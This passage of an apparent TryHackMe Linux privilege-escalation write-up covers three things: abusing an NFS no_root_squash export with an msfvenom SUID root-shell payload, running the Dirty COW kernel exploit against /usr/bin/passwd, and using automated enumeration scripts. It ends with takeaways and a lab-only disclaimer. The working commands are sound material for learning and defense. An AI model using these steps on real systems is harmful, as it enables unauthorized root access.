NFS (Network File System) exports can be checked for a dangerous option: `no_root_squash`, which allows a client's `root` user to retain root privileges on files created on the share — instead of being mapped down to an unprivileged `nobody` user.

```bash
cat /etc/exports
```

```
/home/user *(rw,sync,no_subtree_check,no_root_squash)
```

**From an attacker-controlled machine** with root access, mount the share and drop a SUID payload as root:

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 <TARGET_IP>:/home/user /tmp/nfs

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

chmod +xs /tmp/nfs/shell.elf
```

Because of `no_root_squash`, the file is created with full root ownership and the SUID bit is preserved exactly as set. Back on the target machine, the same file now runs as root with a privileged bash shell:

```bash
/home/user/shell.elf
```

> Make sure the payload architecture matches the target (`linux/x86/exec` for a 32-bit target, or `linux/x64/exec` for 64-bit — check with `uname -m` on the target first).





---

## Task 20 — Kernel Exploits

Kernel exploits should only be used as a last resort — they can leave a system unstable or crash it entirely. Run a kernel exploit suggester first:

```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The suggester flags the kernel as vulnerable to **Dirty COW** (CVE-2016-5195). A local copy of the exploit is provided:

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Dirty COW replaces the SUID `/usr/bin/passwd` binary with one that spawns a root shell (backing up the original to `/tmp/bak` first):

```bash
/usr/bin/passwd
```

> Remember to restore the original binary afterward: `mv /tmp/bak /usr/bin/passwd`, and exit the root shell.



---

## Task 21 — Privilege Escalation Scripts

Several community tools automate much of the enumeration covered in this room. Three are provided locally at `/home/user/tools/privesc-scripts`:

- **[LinEnum](https://github.com/rebootuser/LinEnum)**
- **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**
- **[linux-smart-enumeration (lse)](https://github.com/diego-treitos/linux-smart-enumeration)**

Run each with varying verbosity:

```bash
./LinEnum.sh
python linuxprivchecker.py
./lse.sh -l2
```

Worth noting from experience with this room: these tools reliably catch weak file permissions, sudo misconfigurations, and SUID binaries, but automated scanners don't always catch everything — for example, hidden files like the `.ssh/root_key` from Task 18 can be missed. **Automated enumeration speeds things up, but doesn't replace manual investigation.**

---

## Key Takeaways

- **File permission audits matter.** A single misconfigured `chmod` on `/etc/shadow`, `/etc/passwd`, or a private SSH key is a full compromise.
- **`sudo -l` and GTFOBins together** turn a list of "allowed" binaries into a root shell in seconds.
- **Environment variable preservation** (`LD_PRELOAD`, `PATH`) under sudo or cron is a frequent real-world misconfiguration, not just a CTF trope.
- **Cron jobs running as root are high-value targets** — check script permissions, unqualified binary calls, and wildcard usage.
- **SUID/SGID binaries** deserve scrutiny for known CVEs, missing shared objects, PATH hijacking, and shell-inherited behavior.
- **Credentials leak in boring places** — shell history, config files, and forgotten key backups.
- **NFS `no_root_squash`** turns a writable network share into a root shell factory.
- **Kernel exploits are a last resort** — powerful, but can destabilize a system.
- **Automated tools (LinEnum, lse, linuxprivchecker) are a starting point, not a substitute** for manual enumeration.

---

## Disclaimer

This writeup documents techniques practiced in a legal, intentionally vulnerable lab environment (TryHackMe). These methods should only be used in environments you own or are explicitly authorized to test.
